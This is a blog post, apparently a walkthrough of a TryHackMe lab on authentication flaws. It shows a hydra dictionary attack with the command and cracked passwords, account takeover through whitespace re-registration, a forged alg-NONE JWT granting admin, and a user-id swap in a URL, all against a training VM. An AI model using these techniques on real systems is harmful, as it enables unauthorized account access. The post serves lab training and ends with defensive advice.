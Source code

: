 ```yaml
---
title: 'Exploiting Common Authentication Misconfigurations'
date: 2020-07-26 00:00:00
featured_image: '/images/posts/authenticate-icon.png'
excerpt: 'Authentication is the first entry into a system. What happens when developers misconfigure such authentication systems and open the door for unauthorized access.'
---
```

![](/images/posts/authenticate.png)

Authentication is one of the key components of a system. With the rise of internet usage and the number of applications, authentication became a key part of information technology space. But when the application developers misconfigure such systems, it opens the door for unauthorized access.

This post shows attacks on the authentication system and also how a misconfigure JWT based system can be exploited, by following the [TryHackMe](https://tryhackme.com/room/authenticate) provided vulnerable application.  


### Attacks on Authentication Systems
Common attack methods used to exploit the authentication systems and networks:

- **Brute force attack** - attempts to guess the credentials based on all possible character combinations.
- **Dictionary attack** - is based on a file of words and common passwords to guess the credentials.    
- **Pass the hash attack** - in a pass the hash attack, the attacker discovers the hash of the user's password and then uses it to log on to the system as the user.
- **Birthday attack** - in this the attacker will be able to create a password that produces the same hash as the user's actual password and is also known as a hash collision.  A hash collision occurs when a hashing algorithm creates the same hash for two different inputs (passwords).  
- **Rainbow table attack** - in this the attacker attempts to discover the password by comparing the actual password hash with a huge database of precomputed hashes, called the Rainbow table.  
- **Replay attack** - capturing the data in a session with the intent of later impersonating one of the parties in the session.  

### Example misconfigurations
Here are some example misconfigurations and we can see how these can be exploited.  
- **Lack of input sanitization**  When a developer ignores the sanitization of user input like username and passwords in the application code, then such application is vulnerable to attacks like SQL injections, buffer overflow attack, Cross-site scripting (CSS).  
- **JSON Web Token (JWT) misconfiguration**  A JSON web token, or JWT (“jot”) for short, is a standardized, optionally validated and/or encrypted container format that is used to securely transfer information between two parties. A misconfiguration can lead to exploit the authentication system.  
- **NoAuth** This type of vulnerability is very rare, but when it occurs, we can access other userspace just by changing the user id in the URL after login.   

## In Action
**Deploy the VM from [TryHackMe](https://tryhackme.com/room/authenticate) to exploit the authentication vulnerabilities.**    

### 1. Dictionary Attack
1. Access the web application on port 8888, which requests to provide user name and password.
1. The attack can be performed with Burp (from intruder with Sniper) or using `hydra`.  Lets use `hydra` for this demo.
1. But before that, we need to capture the http request that is being used for authentication.
1. Start Burp tool and capture the http request by posting some random credentials, like Jack:testpwd.
   Below is the http post request that was captured.
 ```
    POST /login HTTP/1.1
    Host: 10.10.237.94:8888
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.237.94:8888/
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 26
    DNT: 1
    Connection: close
    Upgrade-Insecure-Requests: 1

    user=jack&password=testpwd
 ```
1. Using `hydra`, lets perform the dictionary attack (with file rockyou.txt) to get the password for  users:
   jack and mike.    
 ```bash
    $ hydra -l jack -P /usr/share/wordlists/rockyou.txt 10.10.237.94 -s 8888 http-post-form "/login:user=^USER^&password=^PASS^:invalid_credentials"
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 14:47:40
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
    [DATA] attacking http-post-form://10.10.237.94:8888/login:user=^USER^&password=^PASS^:invalid_credentials
    [8888][http-post-form] host: 10.10.237.94   login: jack   password: 12345678
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 14:47:57

    #mike
    $ hydra -l mike -P /usr/share/wordlists/rockyou.txt 10.10.237.94 -s 8888 http-post-form "/login:user=^USER^&password=^PASS^:invalid_credentials"
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 14:48:37
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
    [DATA] attacking http-post-form://10.10.237.94:8888/login:user=^USER^&password=^PASS^:invalid_credentials
    [8888][http-post-form] host: 10.10.237.94   login: mike   password: 12345
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 14:48:44
```

1. From above we can see, the attack was successful and the passwords for the users are `12345678` and `12345` respectively.
1. Login with the above credentials and capture the user flags:  
 `fad9ddc1fe--------a05f02dd89e271` and `e1faaa144df--------9284f4a5bb578`.


### Re-registration due to lack of input sanitization  
In this attack, instead of performing dictionary based, we will use the application vulnerability where the input sanitization is not performing while registering for a new account. Lets exploit this by registering a new account that resembles to target user account, but with a leading white space in the user name field.

There is a user `darren`, but we don't have the password, so let's create a new account as `\ darren` (notice a leading white space).  
Post account creation, log in with the new user ` darren`, but the application logs into `darren` and capture the flag fe86079416a--------37fea8874b667.

![](/images/posts/authenticate-sample-account.png){:height="60%" width="60%"}

Repeat the same procedure for user `arthur`, by creating a new user account with user name as `\ arthur` and login to capture the flag d9ac0f7d--------ac3edeb75d75e16e.

### JSON Web Token  

A JWT contains three parts in the format [ Header ].[ Payload ].[ Signature ]  
Please refer to the article for more details on [JWT](https://medium.com/ag-grid/a-plain-english-introduction-to-json-web-tokens-jwt-what-it-is-and-what-it-isnt-8076ca679843).

1. Access the web application on port 5000 and authenticate with user:user
1. Capture the JWT token either from Burp or using a browser-->web developer tools-->Storage--> Local Storage.  

JWT Token:
`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1OTU3OTE2ODEsImlhdCI6MTU5NTc5MTM4MSwibmJmIjoxNTk1NzkxMzgxLCJpZGVudGl0eSI6MX0.bAPHetpdduqoY3_o2og5Et7W2Ies9VL3AKMntD1_2yA`  

Complete Post request:
```
GET /protected HTTP/1.1
Host: 10.10.237.94:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.237.94:5000/
Content-Type: application/json
Authorization: JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1OTU3OTE2ODEsImlhdCI6MTU5NTc5MTM4MSwibmJmIjoxNTk1NzkxMzgxLCJpZGVudGl0eSI6MX0.bAPHetpdduqoY3_o2og5Et7W2Ies9VL3AKMntD1_2yA
DNT: 1
Connection: close
```

1. The first two parts of a JWT token can be decoded using base64 decoder or from this [JWT debugger](https://jwt.io/#debugger-io).  
![](/images/posts/jwt-debugger.png){:height="100%" width="100%"}
1. From the header decoded information, we can see, the algorithm using is `HS256` and in the payload, the identity is 1, which could be user ids.
1. Let us exploit the misconfigured application, where the authentication system is not validating the tokens properly.  
1. Modify the token by making the algorithm to NONE, identity as 0 (assuming 0 is the admin account) and the third part is not required as the algorithm is NONE.
1. Encode first two parts with base64 [encoder](https://www.base64encode.org):   
`{"typ":"JWT","alg":"NONE"}` --> `eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0=`
`{"exp": 1595791681, "iat": 1595791381,"nbf": 1595791381, "identity": 0}` --> `eyJleHAiOiAxNTk1NzkxNjgxLCAiaWF0IjogMTU5NTc5MTM4MSwibmJmIjogMTU5NTc5MTM4MSwgImlkZW50aXR5IjogMH0=`
1. The new JWT token for admin is now ready, `eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0=.eyJleHAiOiAxNTk1NzkxNjgxLCAiaWF0IjogMTU5NTc5MTM4MSwibmJmIjogMTU5NTc5MTM4MSwgImlkZW50aXR5IjogMH0=.` and replace this in the browser session and click GO.
1. We now logged into the application with the `admin` user as shown in the below image.  

![](/images/posts/JWT-admin-login.png){:height="60%" width="60%"}

### No Auth
As mentioned earlier, this type of vulnerability is very rare in today's application but exists when designed the application poorly.  

1. Access the application on port 7777.
2. Create a new account and login.  
3. Visit private space and you can notice the url `http://10.10.237.94:7777/users/1`
4. Change the user id 1 with 0, which access the superadmin's private space.  

### Conclusion
The Authentication and Authorization system are very critical in information technology space, a misconfigured system will open the door for attackers. Implementing the policies like Account lockouts, password complexities, salting the passwords, multi factor authentication, using strong hash algorithms for storing the credentials and performing the input sanitization when allowing users to input the data can help in avoiding the exploitation of authentication systems.  

###### References:  
1. Image and exploitable VM credits: [TryHackMe](https://tryhackme.com/room/authenticate)  
1. Gibson, D. (2014). Protecting Against Advanced Attacks. In CompTIA Security+ get certified get ahead SYO-401 study guide. YCDA, LLC.  
1. Koretskyi, M. (2018, June 26). A plain English introduction to JSON web tokens (JWT): what it is and what it isn't. Medium. https://medium.com/ag-grid/a-plain-english-introduction-to-json-web-tokens-jwt-what-it-is-and-what-it-isnt-8076ca679843.  

